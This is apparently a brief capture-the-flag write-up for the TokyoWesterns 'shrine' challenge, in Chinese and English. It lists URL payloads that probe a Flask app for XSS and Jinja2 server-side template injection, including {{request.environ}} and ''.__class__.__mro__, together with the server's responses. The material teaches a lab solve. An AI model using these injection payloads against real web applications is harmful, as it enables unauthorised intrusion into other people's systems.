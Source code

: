 ### Solve

```python
shrine.chal.ctf.westerns.tokyo/shrine/<script>alert`1`</script>
	能弹窗
# http://www.freebuf.com/articles/web/98619.html
view-source:shrine.chal.ctf.westerns.tokyo/shrine/{{1+2}}
    3
	可见模板引擎能够计算数学表达式的值
http://shrine.chal.ctf.westerns.tokyo/shrine/{{request}}
    <Request 'http://shrine.chal.ctf.westerns.tokyo/shrine/{{request}}' [GET]>
http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.environ}}
    {'REQUEST_METHOD': 'GET', 
     'REQUEST_URI': '/shrine/%7B%7Brequest.environ%7D%7D', 
     'PATH_INFO': '/shrine/{{request.environ}}', 
     'QUERY_STRING': '', 
     'SERVER_PROTOCOL': 'HTTP/1.1', 
     'SCRIPT_NAME': '', 
     'SERVER_NAME': 'shrine-5654786b64-xp7q2', 
     'SERVER_PORT': '8080', 
     'UWSGI_ROUTER': 'http', 
     'REMOTE_ADDR': '10.40.2.1',
     'REMOTE_PORT': '28634', 
     'HTTP_HOST': 'shrine.chal.ctf.westerns.tokyo', 
     'HTTP_UPGRADE_INSECURE_REQUESTS': '1', 
     'HTTP_USER_AGENT': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36', 
     'HTTP_ACCEPT': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8', 
     'HTTP_ACCEPT_ENCODING': 'gzip, deflate',
     'HTTP_ACCEPT_LANGUAGE': 'zh-CN,zh;q=0.9',
     'HTTP_X_CLOUD_TRACE_CONTEXT': 'aab47ed41d76fe523b72aac8d1bf064e/4778608169500822544', 
     'HTTP_VIA': '1.1 google',
     'HTTP_X_FORWARDED_FOR': '112.5.203.141, 35.186.198.180',
     'HTTP_X_FORWARDED_PROTO': 'http', 
     'HTTP_CONNECTION': 'Keep-Alive', 
     'wsgi.input': <uwsgi._Input object at 0x7f6ccd562138>, 
     'wsgi.file_wrapper': <built-in function uwsgi_sendfile>, 
     'wsgi.version': (1, 0),
     'wsgi.errors': <_io.TextIOWrapper name=2 mode='w' encoding='UTF-8'>, 
     'wsgi.run_once': False, 
     'wsgi.multithread': False, 
     'wsgi.multiprocess': True, 
     'wsgi.url_scheme': 'http', 
     'uwsgi.version': b'2.0.17.1', 
     'uwsgi.node': b'shrine-5654786b64-xp7q2', 
     'werkzeug.request': <Request 'http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.environ}}' [GET]>
    }
    
http://shrine.chal.ctf.westerns.tokyo/shrine/{{request.environ.werkzeug.request}}
    code_500
    
# http://flask.pocoo.org/docs/1.0/templating/#standard-context
http://shrine.chal.ctf.westerns.tokyo/shrine/{{session}}
    <NullSession {}>
http://shrine.chal.ctf.westerns.tokyo/shrine/{{g}}
    <flask.g of 'app'>
http://shrine.chal.ctf.westerns.tokyo/shrine/{{ctx._AppCtxGlobals}}
    code_500
# http://www.freebuf.com/articles/web/98928.html
http://shrine.chal.ctf.westerns.tokyo/shrine/{{ ''.__class__.__mro__ }}
    (<class 'str'>, <class 'object'>)
```